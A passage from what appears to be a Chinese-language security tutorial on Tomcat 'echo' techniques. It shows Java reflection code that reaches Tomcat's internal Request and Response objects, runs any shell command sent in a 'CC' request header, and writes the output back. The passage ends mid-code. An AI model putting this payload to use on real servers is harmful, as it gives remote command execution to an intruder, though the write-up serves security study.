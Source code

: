 ![image-20210622075444742](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//9u55er9ec/9u55er9ec.png)

5. 在AbstractEndpoint$Handler是一个接口，其实现类`AbstractProtocol$ConnectionsHanhler`是所需要的Handler。ConnectionsHanhler中是包含`global`字段。

```java
// obj --> org.apche.coyote.AbstractProtocol$ConnectionsHanhler
try {
f = obj.getClass().getSuperclass().getDeclaredField("global");
} catch (NoSuchFieldException e) {
// obj --> AbstractProtocol$ConnectionsHanhler
f = obj.getClass().getDeclaredField("global");
}
```

![image-20210622080307404](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//7u03er7ec/7u03er7ec.png)

6. 获取到`RequestGroupInfo`对象，在`RequestGroupInfo`之中有包含`Processor`对象`list`。

```
// obj --> org.apche.coyote.RequestGroupInfo
f.setAccessible(true);
obj = f.get(obj);
f = obj.getClass().getDeclaredField("processors");
f.setAccessible(true);
// processors --> List<RequestInfo>
java.util.List processors = (java.util.List) (f.get(obj));
```

![image-20210622080509210](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//9u05er9ec/9u05er9ec.png)

7. 获取到Processor对象之后，接着获取`Request`和`Response`，在然后就是一段读写操作。

```
				 // processors.size() == 1
                for (int j = 0; j < processors.size(); ++j) {
                    Object processor = processors.get(j);
                    f = processor.getClass().getDeclaredField("req");
                    f.setAccessible(true);
                    // org.apche.coyote.Request
                    Object req = f.get(processor);
                    // org.apche.coyote.Response
                    Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);
                    // header cc: "cmd"
                    str = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"CC"});
                    if (str != null && !str.isEmpty()) {
                        resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                        String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
                        byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream(),charsetName)).useDelimiter("\\A").next().getBytes(charsetName);
                        try {
                            Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                            obj = cls.newInstance();
                            cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        } catch (NoSuchMethodException var5) {
                            Class cls = Class.forName("java.nio.ByteBuffer");
```